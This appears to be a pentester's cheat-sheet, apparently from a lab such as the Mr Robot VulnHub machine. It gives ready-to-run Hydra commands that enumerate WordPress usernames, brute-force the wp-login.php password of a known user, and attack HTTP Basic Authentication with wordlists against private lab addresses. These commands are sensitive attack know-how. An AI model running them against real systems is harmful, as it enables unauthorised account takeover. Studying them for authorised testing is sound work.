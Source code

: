 ## wplogin 
`when wpscan can't enumerate users`

tip : just copy the post request and arrange it
```
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```
**FOR POST req** - http-post-form

**FOR GET req** - http-get-form



**username** 
```bash
hydra -L fsocity.dic -P /usr/share/wordlists/wfuzz/others/common_pass.txt 192.168.56.115 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.115%2Fwp-admin%2F&testcookie=1:Invalid username" -V
```

**password**

- syntax

```bash
hydra -vV -l [valid-username] -P [password-list] [IP] [http-post-form] '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```
eg
```bash
hydra -vV -l elliot -P password-list 192.168.56.115 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```

## brute force HTTP Basic Authentication

```
hydra -l admin -P ~/rockyou.txt -s 80 -f 192.168.196.201 http-get /
```
